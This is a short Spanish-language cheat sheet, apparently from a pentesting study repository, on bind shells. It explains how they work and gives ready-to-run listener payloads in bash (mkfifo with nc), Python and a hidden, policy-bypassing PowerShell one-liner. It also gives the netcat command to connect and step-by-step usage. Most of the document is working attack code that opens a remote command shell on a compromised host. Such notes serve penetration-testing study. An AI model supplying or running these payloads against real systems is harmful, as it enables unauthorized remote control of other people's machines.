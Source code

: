 # 📡 Bind Shells – Resumen

Una **Bind Shell** deja al host comprometido **escuchando en un puerto**, esperando que nos conectemos.

## 📌 Características
- Podemos reconectar mientras el proceso siga vivo.
- Útil si el objetivo no puede iniciar conexiones salientes.
- Depende de que el puerto sea accesible (firewall puede bloquear).

## 🔹 Ejemplos de payloads
- **Bash:**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
- **Python:**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

- **PowerShell:**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

```

## 🔹 Conexión con Netcat
```bash
nc TARGET_IP 1234
```

## 🔹 Uso
1. Ejecutar payload en el objetivo para que escuche.
2. Conectarnos al puerto especificado.
3. Trabajar con la shell resultante.

📎 Tip: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) tiene múltiples variantes.
